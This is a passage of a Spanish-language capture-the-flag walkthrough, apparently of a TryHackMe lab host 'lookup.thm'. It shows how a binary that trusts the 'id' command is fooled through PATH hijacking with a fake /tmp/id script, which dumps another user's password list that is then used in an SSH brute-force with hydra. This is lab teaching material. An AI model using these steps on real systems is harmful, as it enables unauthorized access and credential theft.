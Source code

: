 ```
uid=%*u(%[^)])
[-] Error reading username from id command
[!] ID: %s
/home/%s/.passwords
[-] File /home/%s/.passwords not found
```

Creamos un script en Bash llamado *id*, en el cual insertamos de forma hardcodeada el nombre del usuario "*think*". Posteriormente, manipulamos la variable PATH para que el sistema ejecute este binario "*id*" ilegítimo en lugar del binario legítimo del sistema.

Obtenemos el id del usuario think para darle más veracidad:
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
cat /etc/passwd | grep -i think
think:x:1000:1000:,,,:/home/think:/bin/bash
```
Generamos el falso fichero id:
```
#!/bin/env bash
echo "uid=1000(think) gid=1000(think) groups=1000(think)"

```
Modificamos el PATH y ejecutamos el binario, vemos que logramos engañarlo y obtener un listado de contraseñas del usuario "*think*":
```
export PATH=/tmp:$PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
pwm
pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
<SNIP>
```

Con el listado de contraseñas, utilizamos la herramienta **hydra** para realizar un ataque de fuerza bruta sobre el servicio *SSH*, logramos obtener las credenciales correctas:
```
> hydra -l think -P passwords.txt lookup.thm ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-23 20:06:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://lookup.thm:22/
[22][ssh] host: lookup.thm   login: think   password: ****************
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```
